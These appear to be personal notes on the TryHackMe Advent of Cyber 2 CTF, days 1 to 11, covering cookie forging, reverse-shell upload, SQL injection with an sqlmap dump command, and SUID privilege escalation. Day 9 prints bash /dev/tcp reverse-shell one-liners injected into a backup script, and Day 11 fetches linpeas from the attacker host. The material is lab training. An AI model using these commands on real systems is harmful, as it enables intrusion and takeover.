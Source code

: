 httpstryhackme.comroomadventofcyber2

```
 After last year's shenanigans where Elf McElferson and Elf McSkidy were on damage control mode the entirety of December, McSkidy vowed to never let that happen again. The previous Christmas period was extremely stressful with the Christmas Monster managing to compromise every system within Santa's corporate infrastructure to prevent Christmas from happening. Is Christmas still in danger this year?

McSkidy showed great promise with the previous incident and was tasked with building up a security team within Santa's company - *The Best Festival Company*. Due to resistance from management, budgeting and bureaucracy issues, McSkidy was only able to start building out her team from the 8th November. Since then, she's only hired 2 team members - one security specialist Elf McHacker and one intern Elf McEager.

It's the evening of 30th November - McSkidy's team has been working hard to prevent any down time and security incidents within the entire network and application stack of the Best Festival Company. McHacker suggested installing a VPN and only allowing access to the infrastructure via the VPN. After a long 8 hour installation and deployment, McSkidy opens her monitoring dashboard and notices that no traffic is flowing to any of the applications (this was expected as no one had access to the VPN). *thank god,* she said. *Getting hacked again is not an option.*

*RING, RING, RING* - her Elf hotline starts ringing and she jumps. *Santa's schedule isn't working - I CAN'T SEE ANYTHING,* yells Elf McAssistant. Within a matter of seconds hundreds of phone calls come in and *Elf McSkidy gets that sinking feeling in her stomach.* She quickly dispatches *McHacker* to analyse the VPN logs. He notices a payload that resembles a VPN authentication bypass that allows anyone to bypass the VPN - *did someone install the wrong version.* With the poor state of security across the entire network, this unknown actor managed to access all applications and their underlying servers!

Unlike last time, no one has claimed responsibility for this incident. *Here we go again*, she sighs. It's up to you (Elf McEager) and the rest to save Christmas.
```

# Day 1
`export IP=10.10.31.26`

- Decrypting the auth cookie using https://gchq.github.io/CyberChef/
- Modifying the value and encrypting it again
- Replace the cookie and refresh to gain access

# Day 2
`export IP=10.10.252.178`

- Discovering folders using gobuster, found http://10.10.43.10/uploads/
- Figuring out what file types to use to avoid the extension filter
- Upload the reverse shell
- Run netcat to start listening on the port defined in the revshell script
- Open the revshell which we uploaded
- Did not take the time to figure out how to stabilize the shell, just used `find` to find the flag.txt

# Day 3

`export IP=10.10.109.129`

- Used ZAP to brute force try different usernames and passwords.

# Day 4

`export IP=10.10.138.12`

Date format is `YYYYMMDD`

- Compose the wfuzz command according to the example
- Run gobuster searching for php files as well using `-x "php"`
- Use wfuzz and the provided wordlist to find the correct date for which the api returns the key.

# Day 5

`export IP=10.10.159.207`

```
Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using --tamper=space2comment
```

santa:santapassword
john:johnstrong

- Took me a long while to discover that I should check port 8000 and not the demo on port 3000
- Gifts where easy to query using an `a' or 1-=1; -- ` injection
- same with the admin password using a union select on the `users`. 
- Getting the flag took me a really long time since sqlmap did not give me usefull feedback on my mistakes. In the end I had not realized that the dbms should have been sqlite...

sqlmap --url http://10.10.159.207:8000/santapanel?search=abc --method=GET --dbms sqlite --cookie "session=eyJhdXRoIjp0cnVlfQ.X8wDtw.8s8ipE8tFqPzPxWcT9HngM24Ij8" --dump

# Day 6

`export IP=10.10.197.95`
`http://10.10.197.95:5000`

- Basic XSS, no flag to be found, boring day :(

# Day 7

Another basic day, just getting a bit familiar with filtering in Wireshark. Useful but it remains way too basic.

- Had some trouble saving the application/zip response as binary data because Wireshark kept hanging. Probably just my tiny laptop unable to handle it, took some waiting before it succeeded.

# Day 8

`export IP=10.10.73.122`

I'm beginning to think that only the first 2 days were actually CTF challenges, the rest so far is just learning. Which is good, but a tad boring. This day it's just running nmap a couple of times. `nmap -sV -sC --script=vuln $IP`.

#Day 9

`export IP=10.10.250.178`

- Login to the ftp as anonymous
- get the backup.sh script and modify it by placing reverse shell code in it from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

```sh
bash -i >& /dev/tcp/10.8.97.41/4242 0>&1
0<&196;exec 196<>/dev/tcp/10.8.97.41/4242; sh <&196 >&196 2>&196
```

# Day 10

`export IP=10.10.74.114`

- Using `enum4linux` to get info about samba shares

### Samba shares and users
Sharename       Type      Comment
---------       ----      -------
tbfc-hr         Disk      tbfc-hr
tbfc-it         Disk      tbfc-it
tbfc-santa      Disk      tbfc-santa

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: elfmcskidy	Name: 	Desc: 
index: 0x2 RID: 0x3ea acb: 0x00000010 Account: elfmceager	Name: elfmceager	Desc: 
index: 0x3 RID: 0x3e9 acb: 0x00000010 Account: elfmcelferson	Name: 	Desc: 

user:[elfmcskidy] rid:[0x3e8]
user:[elfmceager] rid:[0x3ea]
user:[elfmcelferson] rid:[0x3e9]

# Day 11

`export IP=10.10.138.120`

- Start with a network scan `nmap -sV -sC --script=vuln $IP`
- Download linpeas.sh and host in on a webserver on the attacking machine `python3 -m http.server 8080` (the vulnerable machine does not have internet access)
- Download linpeas.sh on the vuln machine in /tmp `wget http://10.8.97.41:8080/linpeas.sh`
- Instead of linpeas, to just find SUID files you can use `find / -perm -u=s -type f 2>/dev/null`
- Stumbled a bit with what I could actually do with /bin/bash that had the SUID bit set, turned out I had to include the -p switch to turn on privileged mode, so `/bin/bash -p`.